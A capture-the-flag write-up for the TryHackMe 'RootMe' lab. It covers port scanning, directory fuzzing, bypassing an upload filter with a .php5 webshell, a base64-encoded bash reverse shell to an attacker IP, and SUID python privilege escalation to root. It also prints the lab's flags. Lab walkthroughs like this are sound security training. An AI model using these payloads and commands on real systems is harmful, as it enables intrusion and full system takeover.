## TL;DR

First we find hidden directory, which is `panel`. There we upload webshell with extension `.php5`, to bypass WAF. We privilege escalate using SUID on `/usr/bin/python2.7`, which let us spawn shell as root. 

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see port `22` is open with ssh and port `80` with apache http server.    
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cb:b0:de:22:8a:f3:d5:2e:b1:d6:e7:fc:f2:94:87:90 (RSA)
|   256 8f:c7:57:4e:d9:ac:f4:08:de:34:b3:a2:89:f1:08:26 (ECDSA)
|_  256 53:bd:94:5b:74:cf:15:a8:58:9d:61:92:4f:43:7e:9b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find hidden panel and upload webshell with extension .php5

When we go to main page we can see this.



I used `ffuf` to enumerate directories and files.

```bash
┌──(agonen㉿kali)-[~/thm/RootMe]                                                                                                                             
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                                   
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.194/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 90ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 91ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 144ms]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 89ms]
                        [Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 93ms]
:: Progress: [87651/87651] :: Job [1/1] :: 222 req/sec :: Duration: [0:03:55] :: Errors: 0 ::
```

We can find `uploads` and also `panel`.



I want to `panel` and found this simple panel, where i can upload images:



After uploading, we can go to `/uploads` and view what we uploaded, we probably need to somehow upload `webshell`.

First I tried to simply upload `webshell.php`, but I got this error message:
```
PHP is not allowed!
```



So, I thought maybe it filtering only `.php` extension, I tried with `.php5` extension, and it worked.


Now, let's upload the payload from `penelope` for reverse shell
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

And full `webshell.php5`:
```php
<?php system('printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash'); ?>
```



And inside the terminal, after visiting `http://10.10.148.194/uploads/webshell.php5`, we got our reverse shell.



### Find user flag inside /var/www/user.txt

Inside `panel/index.php` we can find hidden flag:
```bash
hackIT{uplo4d_f1l3_byp4ss}
```



Inside the root folder, we can find `Website.zip`, let's `unzip` it.

```bash
www-data@ip-10-10-148-194:/var/www/html$ ls -l
total 276
-rw-r--r-- 1 www-data www-data 259678 Aug  4  2020 Website.zip
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 css
-rw-r--r-- 1 www-data www-data    645 Aug  4  2020 index.php
drwxr-xr-x 2 www-data www-data   4096 Jun  2  2020 js
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 panel
drwxrwxrwx 2 www-data www-data   4096 Nov 14 08:38 uploads
www-data@ip-10-10-148-194:/var/www/html$ unzip Website.zip 
Archive:  Website.zip
   creating: Website/
   creating: Website/css/
  inflating: Website/css/home.css    
  inflating: Website/css/panel.css   
  inflating: Website/index.php       
   creating: Website/js/
  inflating: Website/js/maquina_de_escrever.js  
   creating: Website/panel/
  inflating: Website/panel/index.php  
   creating: Website/uploads/
  inflating: Website/uploads/CAPA CANAL NOVO.png  
  inflating: Website/uploads/shell.php5  
```

Next we want to find `user.txt`, so let's use `find`:
```bash
www-data@ip-10-10-148-194:/home$ find / -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@ip-10-10-148-194:/home$ cat /var/www/user.txt 
THM{y0u_g0t_a_sh3ll}
```

And we got the user flag:
```bash
THM{y0u_g0t_a_sh3ll}
```

### Privilege escalation to root

I executed linpeas using `run peass_ng` in `penelope` and found this interesting SUID binary `/usr/bin/python2.7`.



I went to [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/), to check how can i achieve PE using python, and find this.



> ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

Let's use it. notice we set our real user id to effective user id, and then spawn a shell.

```bash
www-data@ip-10-10-148-194:/var/www$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

